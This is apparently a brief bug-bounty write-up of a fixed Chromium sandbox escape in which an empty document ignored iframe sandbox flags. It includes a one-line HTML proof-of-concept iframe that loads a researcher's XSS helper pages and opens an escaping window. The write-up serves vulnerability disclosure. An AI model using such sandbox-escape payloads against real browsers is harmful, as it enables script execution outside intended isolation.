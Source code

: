 ```yaml
---
title: Sandbox escape (Awarded $2500)
---
```


An empty document did not apply the owner's document sandbox flags,
This meant that with “allow-same-origin” it was possible to open a new window and escape the sandbox.  
```html
<iframe sandbox="allow-popups allow-same-origin allow-scripts" src="//a.terjanq.me/xss.php?html=<iframe name=b></iframe><script>b.open('//c.terjanq.me/xss.php?js=alert()')</script>">
```
This was fixed in <https://issues.chromium.org/issues/40057525>
